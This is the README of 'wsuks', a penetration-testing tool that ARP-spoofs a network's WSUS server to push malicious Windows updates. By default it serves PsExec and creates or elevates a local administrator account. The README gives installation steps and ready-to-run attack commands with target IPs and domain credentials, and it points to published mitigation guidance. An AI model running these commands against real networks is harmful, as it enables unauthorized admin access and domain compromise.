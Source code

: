 ![Supported Python versions](https://img.shields.io/badge/python-3.8.1+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/al3x_n3ff?label=al3x_n3ff&style=social)](https://twitter.com/intent/follow?screen_name=al3x_n3ff)

❗️This project is still in beta and not fully working❗️

# wsuks
_Weaponizing the WSUS Attack_

Gaining local administrative access on a Windows machine that is part of a domain is typically the initial step towards acquiring domain admin privileges during a penetration test. In order to exploit the WSUS attack automatically, this tool spoofs the IP address of the WSUS server within the network using ARP, and when the client requests Windows updates, it provides its own malicious updates instead.
By default, a Windows client requests updates every 24 hours. 

Both the executable file served (Default: PsExec64.exe) and the executed command can be changed as needed.

Prerequisits:
- The target Client must be on the local network
- The Windows Server Update Service (WSUS) must be configured using HTTP

Result:
- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created

## Installation
Using pipx (recommended):
```
sudo apt install python3-pipx
pipx ensurepath
pipx install wsuks
sudo ln -s ~/.local/pipx/venvs/wsuks/bin/wsuks /usr/local/bin/wsuks
```

Using poetry:
```
sudo apt install python3-poetry
git clone https://github.com/NeffIsBack/wsuks
cd wsuks
sudo poetry install
```

## Usage
❗wsuks must be run as root❗

Using pipx you can simply run `sudo wsuks ...` anywhere on the system.\
Using poetry you must be in the wsuks folder and begin every command with `sudo poetry run wsuks ...`

#### Specify known WSUS-Server and create local admin user:
```
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20
```
#### Specify known WSUS-Server and add provided domain user to local admin group (Domain is required!):
```
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local
```
#### Autodiscover the WSUS-Server by only specifying the domain user with the dc-ip:
```
sudo wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1
```

## About & Mitigation
In the [PyWSUS](https://github.com/GoSecure/pywsus) Repository from GoSecure you can find a great documentation how to you could detect and mitigate this attack.
They also wrote a great Guide demonstrating how this attack works in detail [here](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/).

This Tool is based on the following projects:
- https://github.com/GoSecure/pywsus
- https://github.com/GoSecure/wsuspect-proxy

